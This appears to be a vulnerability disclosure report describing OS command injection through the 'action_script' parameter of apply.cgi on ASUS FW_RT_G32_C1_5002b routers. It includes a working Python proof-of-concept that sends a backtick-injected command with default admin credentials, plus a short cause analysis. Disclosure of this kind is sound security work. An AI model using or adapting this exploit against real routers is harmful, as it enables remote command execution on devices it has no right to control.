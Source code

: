 

# CVE Report - Command Injection Vulnerability in FW_RT_G32_C1_5002b Routers 

## Vulnerability Title

Command Injection Vulnerability in FW_RT_G32_C1_5002b Router. 

## Vulnerability Description

ASUS FW_RT_G32_C1_5002b devices have an OS command injection vulnerability
in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary
commands via parameter "action_script" passed to the "apply.cgi" binary
through a POST request.

## POC

```python
import requests

ip = '172.17.0.33'
url = f"http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "574",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": f"http://{ip}",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": f"http://{ip}/Advanced_Wireless_Content.asp",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    'action_script': '`touch 1.txt`',
    'action_mode': 'WlanUpdate '
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Body:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v7 by setting the action_script value. It enters system execution, resulting in a command execution vulnerability.

![image-20241229162343975](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20241229162343975.png)

## Suggested Fix

It is recommended to update to the version of FW_RT_G32_C1_5002b router to fix this vulnerability. 


